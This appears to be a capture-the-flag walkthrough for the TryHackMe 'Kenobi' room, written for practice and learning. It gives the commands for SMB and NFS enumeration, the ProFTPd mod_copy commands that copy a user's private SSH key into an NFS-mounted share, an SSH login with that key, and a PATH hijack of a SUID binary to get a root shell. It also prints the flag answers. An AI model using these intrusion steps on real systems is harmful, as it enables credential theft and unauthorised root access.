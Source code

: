 Room: https://tryhackme.com/r/room/kenobi
Title: Kenobi
Target IP: 10.10.61.170

1. Scan the machine with nmap, how many ports are open?
   - Perform a basic nmap scan using ```nmap -sC -sV [Target IP]```
   - We see 7 ports open: 21,22, 80, 111, 139, 445, 2049
   - Answer: ***7***

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/d2b36b23-1af4-4926-aafa-2894b0672133)

2. Using the nmap command above, how many shares have been found?
   - ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [Target IP]```
   -  ```-p``` specifies which port to do an nmap scan
   -  ```--script``` tells the nmap to use a script to enumerate shares
   -  We find three shares: \\10.10.61.170\IPC$:, \\10.10.61.170\anonymous:, \\10.10.61.170\print$:
   -  Answer: ***3***

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/82cff097-a320-438a-a1e7-1bb19ac4c99a)

3. Once your're connected, list the files on the share. What file can you see?
   - Use ```smbclient //[Target IP]/anonymous``` to connect to the machines network share
   - Enter any value for the password
   - List out the files use ```ls```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/20b6445a-68c5-485c-8079-673e24c617d3)

4. What port is FTP running on?
   - Save the file to your current directory using ```get log.txt```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/98ff0f8e-c001-4964-88bd-3bd4cf4401ec)

  - View the contents of the log.txt file and see what port FTP is running on

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/59e92523-23a0-42db-9328-644fbba22ce1)

  - Answer: ***21***

4. What mount can we see?
  - Copy and paste the given command ```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [Target IP]```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6174c55a-ecd7-4833-9d6d-43b7990db4a4)

  - Answer: ***/var***

5. What is the version?
  - Use netcat listner on port 21 to see the version of FTP being used
  - ```nc [Target IP] 21```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/bf182516-a6b4-487a-8d1c-380fa370dd1d)

6. How may exploits are there for the ProFTPd running?
   - Searchsploit is a build in command line tool that seraching for exploits based on exlpoit-db.com
   - ```searchsploit proftpd 1.3.5```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/e4bb2ab9-d7c9-4e9c-ae6a-334e8203cc2e)

  - Answer: ***4***

7. What is Kenobi's user flag?
  - Go back to netcat listener ```nc [Target IP] 21```
  - Enter command ```SITE CPFR /home/kenobi/.ssh/id_rsa```
  - Enter command ```SITE CPTO /var/tmp/id_rsa```
  - NOTE: These commands help to rename, relocate, and copy the directory ```/home/kenobi/.ssh/id_rsa``` to our own machine

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/abd69cbf-0446-4413-a562-09ce68790e94)

  - Create this directory ```mkdir /mnt/kenobiNFS```
  - Navigate to it
  - Mount the /var/tmp/ directory, ```mount [Target IP]:/var /mnt/kenobiNFS```
  - Use ```ls -la /mnt/kenobiNFS``` to view the files/directories and their permissions

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/1c89d21b-6282-42b3-b587-a734b7c73654)

  - Copy the id_rsa private key to our machine and directory of choice

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6ca618b0-125a-4e17-b33e-1fdb0df3ff61)

  - Change file permissions so only we can read id_rsa
    ```chmod 600 id_rsa```
  - SSH into Kenobi's account using the private key
    ```ssh -i id_rsa kenobi@[Target IP]```
    
  - NOTE: If you get this SSH error, you may need to switch from NAT to Bridged Adapted (vice versa) in your Virtual Machine settings...

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6ac5112c-8645-494e-8643-02875d513fec)

  - Find the flag!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b48def7d-0fb3-418c-9733-d3e7f3198a64)

  - Answer: ***d0b0f3f53b6caa532a83915e19224899***

8. What file looks particularly out of the ordinary?
  - Run the command ```find / -perm -u=s -type f 2>/dev/null```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/444f81b2-2de6-492a-8a20-0bf220b5819b)

  - Answer: ```/usr/bin/menu```

9. Run the binary, how many options appear?
  - Run ```/usr/bin/menu```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/df3a9cc5-a969-4a08-abe0-275a9dd7b222)

  - Answer: ***3***

10. What is the root flag?
  - Follow the commands to manipulate our path and gain a root shell
  - ```cd /tmp``` Navigate to the tmp directory
  - ```echo /bin/sh > curl``` outputs a file named curl with the contents of /bin/sh
  - ```chmod 777 curl``` changes permissions to read,write,execute for the user, group users, and others
  - ```export PATH=/tmp:$PATH``` tells the system to look at the tmp directory first to run commands
  - ```/usr/bin/menu``` executes the "menu" executable file
  - Find the flag!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/a9118b14-4d79-4c79-b38e-7944d0596613)


